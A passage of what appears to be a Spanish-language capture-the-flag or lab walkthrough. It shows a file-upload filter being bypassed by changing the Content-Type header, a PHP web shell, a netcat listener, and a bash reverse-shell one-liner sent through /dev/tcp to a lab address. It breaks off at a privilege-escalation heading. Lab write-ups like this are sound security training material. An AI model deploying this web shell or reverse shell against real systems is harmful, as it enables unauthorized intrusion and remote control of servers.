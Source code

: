 En este caso, puede que la web no se fije en la extensión sino en el "Content-type", por lo que podríamos cambiarlo por "image/jpeg", quedará así:

![repeater2](img/repeater2.png)

Una vez cambiado solo le damos a "send", y en la respuesta veremos esto:

![repeater3](img/repeater3.png)

Ahora que ya se subió, tendremos que hacer una u otra cosa dependiendo de nuestra shell, en mi caso es esta:

```php
<?php
system($_GET['cmd']);
?>
```

y con esta debemos hacer lo siguiente:

1. Primero preparamos el `netcat` escuchando por el puerto 443: `nc -lvnp 443`
2. Ahora vamos a la url donde se encuentra el archivo, en este caso sería: http://realgob.dl/uploads/cmd.php
3. Luego en la url agregamos lo siguiente: ?cmd=<comando>. Esto nos permitirá ejecutar comandos, por lo que para enviarnos una shell debemos poner lo siguiente: `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`

Una vez enviado estaremos dentro de la máquina.

# ESCALADA DE PRIVILEGIOS
